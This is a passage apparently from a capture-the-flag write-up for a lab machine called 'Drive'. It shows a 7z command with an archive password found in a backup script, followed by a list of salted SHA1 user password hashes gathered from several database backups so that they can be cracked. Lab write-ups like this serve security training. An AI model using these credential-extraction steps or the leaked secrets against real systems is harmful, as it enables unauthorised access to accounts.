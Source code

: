 ![Backup script containing credentals](/assets/img/Drive/Drive_16.png)

Now we can decrypt the 7z archives using the following command an password

```bash
7z x 1_Dec_db_backup.sqlite3.7z
H@ckThisP@ssW0rDIfY0uC@n:)
```

Then we repeat the steps we took to obtain the user hashes for all the 4 different backups, we'd end up with the following list of hashes

```
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
```
